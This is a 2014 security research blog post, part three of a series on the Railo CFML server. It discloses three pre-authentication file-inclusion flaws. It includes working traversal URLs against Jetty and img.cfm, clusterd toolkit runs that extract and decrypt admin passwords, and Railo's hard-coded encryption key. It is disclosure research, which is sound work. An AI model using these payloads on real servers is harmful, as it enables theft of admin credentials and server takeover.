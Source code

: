 ```yaml
---
categories:
- railo
- clusterd
comments: false
date: "2014-08-23T15:00:00Z"
title: railo security - part three - pre-authentication LFI
---
```


*[Part one - intro](http://hatriot.github.io/blog/2014/06/25/railo-security-part-one/)*  
*[Part two - post-authentication rce](http://hatriot.github.io/blog/2014/07/24/railo-security-part-two/)*  
*Part three - pre-authentication LFI*  
*[Part four - pre-authentication rce](http://hatriot.github.io/blog/2014/08/27/railo-security-part-four/)*  


This post continues our four part Railo security analysis with three pre-authentication LFI vulnerabilities.  These allow anonymous users access to retrieve the administrative plaintext password and login to the server's administrative interfaces.  If you're unfamiliar with Railo, I recommend at the very least reading part one of this series.  The most significant LFI discussed has been implemented as auxiliary modules in [clusterd](http://github.com/hatRiot/clusterd), though they're pretty trivial to exploit on their own.

We'll kick this portion off by introducing a pre-authentication LFI vulnerability that affects all versions of Railo Express; if you're unfamiliar with the Express install, it's really just a self-contained, no-installation-necessary package that harnesses Jetty to host the service.   The flaw actually has nothing to do with Railo itself, but rather in this packaged web server, Jetty.  [CVE-2007-6672](http://www.cvedetails.com/cve/CVE-2007-6672/) addresses this issue, but it appears that the Railo folks have not bothered to update this.  Via the browser, we can pull the config file, complete with the admin hash, with `http://[host]:8888/railo-context/admin/..\..\railo-web.xml.cfm`.

A quick run of this in clusterd on Railo 4.0:

```
$ ./clusterd.py -i 192.168.1.219 -a railo -v4.0 --rl-pw

        clusterd/0.3 - clustered attack toolkit
            [Supporting 6 platforms]

 [2014-05-15 06:25PM] Started at 2014-05-15 06:25PM
 [2014-05-15 06:25PM] Servers' OS hinted at windows
 [2014-05-15 06:25PM] Fingerprinting host '192.168.1.219'
 [2014-05-15 06:25PM] Server hinted at 'railo'
 [2014-05-15 06:25PM] Checking railo version 4.0 Railo Server...
 [2014-05-15 06:25PM] Checking railo version 4.0 Railo Server Administrator...
 [2014-05-15 06:25PM] Checking railo version 4.0 Railo Web Administrator...
 [2014-05-15 06:25PM] Matched 3 fingerprints for service railo
 [2014-05-15 06:25PM]   Railo Server (version 4.0)
 [2014-05-15 06:25PM]   Railo Server Administrator (version 4.0)
 [2014-05-15 06:25PM]   Railo Web Administrator (version 4.0)
 [2014-05-15 06:25PM] Fingerprinting completed.
 [2014-05-15 06:25PM] Attempting to pull password...
 [2014-05-15 06:25PM] Fetched encrypted password, decrypting...
 [2014-05-15 06:25PM] Decrypted password: default
 [2014-05-15 06:25PM] Finished at 2014-05-15 06:25PM
```

and on the latest release of Railo, 4.2:

```
$ ./clusterd.py -i 192.168.1.219 -a railo -v4.2 --rl-pw

        clusterd/0.3 - clustered attack toolkit
            [Supporting 6 platforms]

 [2014-05-15 06:28PM] Started at 2014-05-15 06:28PM
 [2014-05-15 06:28PM] Servers' OS hinted at windows
 [2014-05-15 06:28PM] Fingerprinting host '192.168.1.219'
 [2014-05-15 06:28PM] Server hinted at 'railo'
 [2014-05-15 06:28PM] Checking railo version 4.2 Railo Server...
 [2014-05-15 06:28PM] Checking railo version 4.2 Railo Server Administrator...
 [2014-05-15 06:28PM] Checking railo version 4.2 Railo Web Administrator...
 [2014-05-15 06:28PM] Matched 3 fingerprints for service railo
 [2014-05-15 06:28PM]   Railo Server (version 4.2)
 [2014-05-15 06:28PM]   Railo Server Administrator (version 4.2)
 [2014-05-15 06:28PM]   Railo Web Administrator (version 4.2)
 [2014-05-15 06:28PM] Fingerprinting completed.
 [2014-05-15 06:28PM] Attempting to pull password...
 [2014-05-15 06:28PM] Fetched password hash: d34535cb71909c4821babec3396474d35a978948455a3284fd4e1bc9c547f58b
 [2014-05-15 06:28PM] Finished at 2014-05-15 06:28PM
```

Using this LFI, we can pull the `railo-web.xml.cfm` file, which contains the administrative password.  Notice that 4.2 only dumps a hash, whilst 4.0 dumps a plaintext password.  This is because versions <= 4.0 blowfish encrypt the password, and > 4.0 actually hashes it.  Here's the relevant code from Railo (ConfigWebFactory.java):

```
private static void loadRailoConfig(ConfigServerImpl configServer, ConfigImpl config, Document doc) throws IOException  {
        Element railoConfiguration = doc.getDocumentElement();

        // password
        String hpw=railoConfiguration.getAttribute("pw");
        if(StringUtil.isEmpty(hpw)) {
            // old password type
            String pwEnc = railoConfiguration.getAttribute("password"); // encrypted password (reversable)
            if (!StringUtil.isEmpty(pwEnc)) {
                String pwDec = new BlowfishEasy("tpwisgh").decryptString(pwEnc);
                hpw=hash(pwDec);
            }
        }
        if(!StringUtil.isEmpty(hpw))
            config.setPassword(hpw);
        else if (configServer != null) {
            config.setPassword(configServer.getDefaultPassword());
        }
``` 

As above, they actually encrypted the password using a hard-coded symmetric key; this is where versions <= 4.0 stop.  In > 4.0, after decryption they hash the password (SHA256) and use it as such.  Note that the encryption/decryption is no longer the actual password in > 4.0, so we cannot simply decrypt the value to use and abuse.

Due to the configuration of the web server, we can only pull CFM files; this is fine for the configuration file, but system files prove troublesome...

{{< figure src="http://diyblogger.net/wp-content/uploads/2010/12/billy-mays.jpg" >}}

The second LFI is a trivial XXE that affects versions <= 4.0, and is exploitable out-of-the-box with Metasploit.  Unlike the Jetty LFI, this affects all versions of Railo, both installed and express:

{{< figure src="/images/posts/2014/railo/railo-xxe-msf.jpg" >}}

Using this we cannot pull `railo-web.xml.cfm` due to it containing XML headers, and we cannot use the standard OOB methods for retrieving files.  Timothy Morgan gave a great [talk](http://2013.appsecusa.org/2013/wp-content/uploads/2013/12/WhatYouDidntKnowAboutXXEAttacks.pdf) at OWASP Appsec 2013 that detailed a neat way of abusing Java XML parsers to obtain RCE via XXE.  The process is pretty interesting; if you submit a URL with a jar:// protocol handler, the server will download the zip/jar to a temporary location, perform some header parsing, and then delete it.  However, if you push the file and leave the connection open, the file will persist.  This vector, combined with one of the other LFI's, could be a reliable pre-authentication RCE, but I was unable to get it working.

The third LFI is just as trivial as the first two, and again stems from the pandemic problem of failing to authenticate at the URL/page level.  `img.cfm` is a file used to, you guessed it, pull images from the system for display.  Unfortunately, it fails to sanitize anything:

```
<cfset path="resources/img/#attributes.src#.cfm">
<cfparam name="application.adminimages" default="#{}#">
<cfif StructKeyExists(application.adminimages,path) and false>
    <cfset str=application.adminimages[path]>
<cfelse>
    <cfsavecontent variable="str" trim><cfinclude template="#path#"></cfsavecontent>
    <cfset application.adminimages[path]=str>
</cfif>
```

By fetching this page with `attributes.src` set to another CFM file off elsewhere, we can load the file and execute any tags contained therein.  As we've done above, lets grab `railo-web.xml.cfm`; we can do this with the following url: `http://host:8888/railo-context/admin/img.cfm?attributes.src=../../../../railo-web.xml&thistag.executionmode=start` which simply returns

```
<?xml version="1.0" encoding="UTF-8"?><railo-configuration pw="d34535cb71909c4821babec3396474d35a978948455a3284fd4e1bc9c547f58b" version="4.2">
```

This vulnerability exists in 3.3 - 4.2.1 (latest), and is exploitable out-of-the-box on both Railo installed and Express editions.  Though you can only pull CFM files, the configuration file dumps plenty of juicy information.  It may also be beneficial for custom tags, plugins, and custom applications that may house other vulnerable/sensitive information hidden away from the URL.

Curiously, at first glance it looks like it may be possible to turn this LFI into an RFI.  Unfortunately it's not quite that simple; if we attempt to access a non-existent file, we see the following:

```
The error occurred in zip://C:\Documents and Settings\bryan\My Documents\Downloads\railo\railo-express-4.2.1.000-jre-win32\webapps\ROOT\WEB-INF\railo\context\railo-context.ra!/admin/img.cfm: line 29
```

Notice the `zip://` handler.  This prevents us from injecting a path to a remote host with any other handler.  If, however, the tag looked like this:

```
<cfinclude>#attributes.src#</cfinclude>
```

Then it would have been trivially exploitable via RFI.  As it stands, it's not possible to modify the handler without prior code execution.

To sum up the LFI's: all versions and all installs are vulnerable via the `img.cfm` vector.  All versions and all express editions are vulnerable via the Jetty LFI.  Versions <= 4.0 and all installs are vulnerable to the XXE vector.  This gives us reliable LFI in all current versions of Railo.

This concludes our pre-authentication LFI portion of this assessment, which will crescendo with our final post detailing several pre-authentication RCE vulnerabilities.  I expect a quick turnaround for part four, and hope to have it out in a few days.  Stay tuned!